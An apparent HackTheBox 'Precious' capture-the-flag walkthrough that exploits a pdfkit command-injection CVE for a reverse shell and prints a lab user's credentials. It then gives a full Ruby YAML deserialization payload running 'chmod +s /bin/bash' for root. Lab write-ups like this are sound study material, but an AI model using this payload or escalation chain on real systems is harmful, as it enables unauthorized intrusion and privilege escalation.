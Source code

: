 1.nginx is running with what additional software designed to serve web applications?
First what we need to do is turn on nmap, and check the resul:

![obraz](https://github.com/Anogota/Precious-/assets/143951834/e53cd72a-2db0-46ee-b73e-a5e05fe1ffd2)

But on the scan we don't have any special, we need to go on this website and check what's is there, after small recon i use wapalyzer and i found it, this a Phusion Passenger 

2.Which HTTP response header reveals the underlying scripting Language of the web application?
Turn on the burp and we need intercept traffic, i found it the HTTP response header is X-Runtime, and the script language is ruby.

![obraz](https://github.com/Anogota/Precious-/assets/143951834/1f82406f-ae84-4b96-af8d-c960c1333e5e)

3.Which Ruby library are the PDF documents generated with?
First create ur own server with help python -m http.server, than write here ur ip and port
and you got a pdf with random characters

![obraz](https://github.com/Anogota/Precious-/assets/143951834/87879b44-f256-4fa4-be8a-516f429865a2)
 
now we find to figure it out what kind of libery is this, open ur terminal and use exiftool on this .pdf
We can see here ruby library 

![obraz](https://github.com/Anogota/Precious-/assets/143951834/02001b72-4861-4c9f-b680-e7eed19704ca)

4.Which 2022 CVE applies to that specific version of pdfkit?
Now we need use google to find CVE from 2022 for pdfkit, let's go :P
After few secend i foun this exploit, this is a RCE
"RCE vulnerabilities allow an attacker to execute arbitrary code on a remote device. An attacker can achieve RCE in a few different ways, including"

![obraz](https://github.com/Anogota/Precious-/assets/143951834/0b130a51-73f0-4b42-9765-0ef6b92070d6)

5.Which directory located in the running user's home directory is used by Bundler to store configuration files?
Now we need to get in i found how to do it, we can do it with reverse shell python
here is the website with this reverse shell, here we can every shell we want
And also here is the articule to get a RCE: https://vk9-sec.com/ruby-pdfkit-command-execution-rce-cve-2022-25765/
https://www.revshells.com/
And we got a shell

![obraz](https://github.com/Anogota/Precious-/assets/143951834/38bc61b1-bfb2-4e63-a25b-9d8d1be07b96)

Here is the answer for the question, and in config we can find some creds for henry
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"

6.Submit the flag located in the henry user's home directory.
here is the flag for henry:

![obraz](https://github.com/Anogota/Precious-/assets/143951834/22e16674-d01a-46f2-bf59-8e961f1ac625)

7.Which command can henry run with sudo, without providing a password?
Whe can check this with help command sudo -l, there we can find what kind of command can run henry with sudo.

8.Which is the name of the file that allows for user-controlled input to the update_dependencies.rb script?
We need to analaz the code, there we can find this script:

![obraz](https://github.com/Anogota/Precious-/assets/143951834/e12dd19a-28e8-4bf1-a101-476b4b02559e)

def list_from_file
    YAML.load(File.read("dependencies.yml"))
here we can see this file that allows for user-controlled, let's go into this file, we can find this file in /opt/sample

9.Submit the flag located in root's home directory.
First what we need to do is go to /dev/shm and create this file dependencies.yml, than with help vim or nano you must insert this:

---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve

Than write this: sudo /usr/bin/ruby /opt/update_dependencies.rb
ls -al /bin/bash
/bin/bash -p
And we will get a root: ![obraz](https://github.com/Anogota/Precious-/assets/143951834/5e66c764-2d21-4ea0-a4e6-618239c83381)

